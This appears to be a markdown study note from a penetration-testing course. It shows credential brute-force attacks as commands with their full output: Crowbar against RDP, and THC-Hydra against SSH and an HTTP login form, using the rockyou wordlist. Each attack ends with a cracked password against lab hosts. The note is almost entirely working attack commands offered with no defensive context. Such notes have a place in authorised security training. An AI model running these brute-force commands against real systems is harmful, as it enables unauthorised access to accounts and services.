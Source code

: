 ## Remote Desktop Protocol Attack with Crowbar

```bash
kali@kali:~$ crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
2019-08-16 04:51:12 START
2019-08-16 04:51:12 Crowbar v0.3.5-dev
2019-08-16 04:51:12 Trying 10.11.0.22:3389
2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec!
2019-08-16 04:51:13 STOP
```

## SSH Attack with THC-Hydra

```bash
kali@kali:~$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 08:35:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommende
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking ssh://127.0.0.1:22/
[22][ssh] host: 127.0.0.1 login: kali password: whatever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 08:36:13
```

## HTTP POST Attack with THC-Hydra

```bash
kali@kali:~$ hydra 10.11.0.22 http-form-post
"/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P
/usr/share/wordlists/rockyou.txt -vV -f
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret servic
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-06-07 15:55:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:143443
[DATA] attacking http-post-
form://10.11.0.22/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456" - 1 of 14344399 [child 0]
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "123456789" - 3 of 14344399 [child
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "password" - 4 of 14344399 [child 3
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "princess" - 6 of 14344399 [child 5
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "1234567" - 7 of 14344399 [child 6]
.....
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "karina" - 268 of 14344399 [child 1
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "dookie" - 269 of 14344399 [child 1
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "hotmail" - 270 of 14344399 [child
[ATTEMPT] target 10.11.0.22 - login "admin" - pass "0123456789" - 271 of 14344399 [chi
[80][http-post-form] host: 10.11.0.22 login: admin password: crystal
[STATUS] attack finished for 10.11.0.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-06-07 15:55:29
```


[^1]: [Extracting in-page keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20in-page%20keywords)
[^2]: [httpsgithub.comSlon104 - GitHub - Slon104Common-PIN-Analysis-from-haveibeenpwned.com](../../Readwise/Articles/httpsgithub.comSlon104%20-%20GitHub%20-%20Slon104Common-PIN-Analysis-from-haveibeenpwned.com.md)
[^3]: [Extracting URL keywords](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20URL%20keywords)
[^4]: [Extracting keywords from JavaScript files](../../Readwise/Articles/blackbird-eu%20-%20Creating%20Custom%20Wordlists%20for%20Bug%20Bounty%20Targets%20A%20Complete%20Guide.md#Extracting%20keywords%20from%20JavaScript%20files)